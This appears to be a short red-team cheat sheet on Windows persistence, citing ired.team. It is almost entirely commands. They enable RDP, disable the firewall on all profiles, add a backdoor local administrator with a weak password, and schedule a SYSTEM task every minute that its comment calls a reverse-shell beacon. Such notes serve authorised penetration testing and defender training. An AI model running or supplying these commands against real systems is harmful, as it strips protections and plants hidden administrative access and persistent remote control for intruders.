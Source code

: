 # Persistence

See [ired.team](https://www.ired.team/offensive-security/persistence)

```powershell
# Enable RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f

# Disable firewall
netsh advfirewall set allprofiles state off

# Add an administrative user to establish persistence
net user mojo Password123! /add
net localgroup administrators mojo /add

# Add a beacon that pings a reverse shell every minute
schtasks /create /sc minute /mo 1 /tn "chillin" /tr C:\ProgramData\System\chillin.bat /ru "SYSTEM"
```
